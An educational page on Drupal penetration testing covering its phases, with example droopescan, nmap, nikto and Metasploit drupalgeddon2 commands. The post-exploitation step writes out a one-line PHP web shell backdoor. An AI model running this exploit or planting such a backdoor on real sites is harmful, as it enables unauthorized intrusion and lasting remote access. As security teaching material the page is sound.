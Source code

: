 # Drupal pentesting


# 👉 Overview

---

### 👀 What ?

> Drupal pentesting, also known as penetration testing, refers to the process of testing a Drupal website to identify any vulnerabilities that could potentially be exploited by hackers. It is an essential practice in cybersecurity to ensure the security of a website.
> 

### 🧐 Why ?

> Drupal pentesting is crucial as it allows developers and security professionals to discover and fix vulnerabilities before they can be exploited by attackers. By conducting pentesting, organizations can protect sensitive data and maintain the trust of their users.
> 

### ⛏️ How ?

> To conduct Drupal pentesting, you can follow these steps: 1. Information Gathering: Collect as much information as possible about the target Drupal website. 2. Scanning: Use tools like Nmap or Nessus to scan the target for open ports and services. 3. Vulnerability Assessment: Use tools like OpenVAS or Nexpose to identify vulnerabilities. 4. Exploitation: Use tools like Metasploit to exploit identified vulnerabilities. 5. Post-Exploitation: Determine the value of the compromised system and maintain access for later use. 6. Reporting: Document the findings and provide recommendations for improvement.
> 

### ⏳ When ?

> Drupal pentesting should be conducted regularly, especially when any changes or updates have been made to the website. It's also highly recommended before launching a new website.
> 

# ⚙️ Technical Explanations

---

Drupal penetration testing, often referred to as Drupal pentesting, is a comprehensive process with the goal of identifying any vulnerabilities in a Drupal website that could potentially be exploited by attackers. This is a crucial practice in cybersecurity as it allows for the discovery and remediation of vulnerabilities before they can be leveraged by malicious parties.

The process begins with **Information Gathering**, where as much data as possible about the target website is collected. This includes identifying the Drupal version being used, the themes and modules installed, and user information. Understanding the target's configuration and setup is a crucial first step in identifying possible vulnerabilities.

The next phase is **Scanning**, where tools like Nmap or Nessus are utilized to identify any open ports or services on the target system. This step can uncover potential entry points for an attacker.

After scanning, the **Vulnerability Assessment** phase starts. This involves the identification of potential vulnerabilities that could be exploited. Tools such as OpenVAS or Nexpose can be used to automate this process and provide a comprehensive list of vulnerabilities.

Following the identification of vulnerabilities, the **Exploitation** phase begins where these vulnerabilities are actually exploited using tools like Metasploit. This step involves leveraging identified vulnerabilities to gain unauthorized access or data from the system.

In the **Post-Exploitation** phase, the value of the compromised system is determined, and attempts are made to maintain access for later use. This could involve creating backdoors or disabling security measures to ensure future access.

The final step is **Reporting**, where all the findings are documented, including all identified and exploited vulnerabilities, along with any accessed data. Recommendations for improving the system's security are also provided at this stage. This report can then be used by the website's administrators or developers to improve the security measures in place.

This process should be conducted regularly, especially after any changes or updates to the website. It's also highly recommended before launching a new website to ensure its security from the get-go.

Let's take an example of Drupal pentesting using some commonly used tools:

**1. Information Gathering:**

We can use a tool like `Droopescan` to gather information about the target Drupal site. It can identify the version, themes, and modules.

```bash
droopescan scan drupal -u <http://targetsite.com>

```

This command scans the target Drupal site and provides information about its version, installed themes, and modules.

**2. Scanning:**

We can use a tool like `Nmap` to scan the target for open ports and services.

```bash
nmap -p 1-65535 -T4 -A -v <http://targetsite.com>

```

This command scans all ports (1-65535) on the target website and provides detailed information about any open ports and services.

**3. Vulnerability Assessment:**

We can use a tool like `Nikto` to identify vulnerabilities.

```bash
nikto -h <http://targetsite.com>

```

This scans the target website and provides a list of potential vulnerabilities.

**4. Exploitation:**

We can use a tool like `Metasploit` to exploit identified vulnerabilities.

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOST <http://targetsite.com>
run

```

This command opens Metasploit, sets the exploit to `drupal_drupalgeddon2` (a known Drupal vulnerability), sets the target site, and runs the exploit.

**5. Post-Exploitation:**

After successful exploitation, we might create a backdoor for later access.

```bash
echo '<?php echo shell_exec($_GET['cmd']); ?>' > shell.php

```

This creates a simple PHP backdoor that allows for remote command execution.

**6. Reporting:**

All findings, including exploited vulnerabilities and accessed data, are documented. This report can be used by the website's administrators or developers to improve the security measures in place.

Remember, this is an educational example and should not be used for malicious purposes. Always have permission before conducting any penetration testing.
